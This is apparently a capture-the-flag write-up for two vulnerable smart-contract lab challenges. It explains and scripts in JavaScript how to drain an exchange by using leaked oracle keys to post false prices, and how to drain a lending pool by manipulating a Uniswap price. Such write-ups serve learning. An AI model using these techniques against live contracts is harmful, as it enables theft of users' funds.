 ### Compromised
The objective of this challenge is:
- Transfer all ethers from `Exchange` contract to the attacker.
  
The `Exchange` contract retrieves the price for the NFTs it sells from `TrustfulOracle` contract. The oracle determines the price of the NFT based on the median price of three sources. Although the `TrustfulOracle` and `Exchange` contracts doesn't seem to have any vulnerabilities, however the challenge description includes a response from a web server related to the `Exchange`. Hex decode the response, then base64 decoding the hex decoded repsonse will generate the private key for the two sources used by the oracle. With control of two out of three source, the challenger can manipulate the price of the NFT.
```
<!-- Javascript -->
wallet1 = new ethers.Wallet('0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9', ethers.provider);
tx = await this.oracle.connect(wallet1).postPrice('DVNFT', 0);
wallet2 = new ethers.Wallet('0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48', ethers.provider);
tx = await this.oracle.connect(wallet2).postPrice('DVNFT', 0);
await tx.wait();
tx = await this.exchange.connect(attacker).buyOne({value:1});
await tx.wait();
tx = await this.oracle.connect(wallet1).postPrice('DVNFT', EXCHANGE_INITIAL_ETH_BALANCE);
await tx.wait();
tx = await this.oracle.connect(wallet2).postPrice('DVNFT', EXCHANGE_INITIAL_ETH_BALANCE);
await tx.wait();
tx = await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
await tx.wait();
tx = await this.exchange.connect(attacker).sellOne(0);
await tx.wait();
tx = await this.oracle.connect(wallet1).postPrice('DVNFT', INITIAL_NFT_PRICE);
await tx.wait();
tx = await this.oracle.connect(wallet2).postPrice('DVNFT', INITIAL_NFT_PRICE);
await tx.wait();
```

### Puppet
The objective of this challenge is:
- Transfer all DVT tokens from `PuppetPool` contract to the attacker.
  
The `PuppetPool` contract allows borrowing of DVT tokens by depositing double the borrowing amount in ether. However, it calculates the required deposit with `uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair)`. The challenger can manipulate both `uniswapPair.balance` and `token.balanceOf(uniswapPair)` by buying ether and selling DVT tokens on Uniswap. The ether required as collateral to borrow DVT tokens from `PuppetPool` will be much lower and can be drained with roughly 10 ethers.
```
<!-- Javascript -->
tx = await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
await tx.wait();
deadline = (await ethers.provider.getBlock()).timestamp + 30;
tx = await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(ethers.utils.parseEther('999'), 1, deadline);
await tx.wait();
tx = await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: ethers.utils.parseEther('20')});
await tx.wait();
```
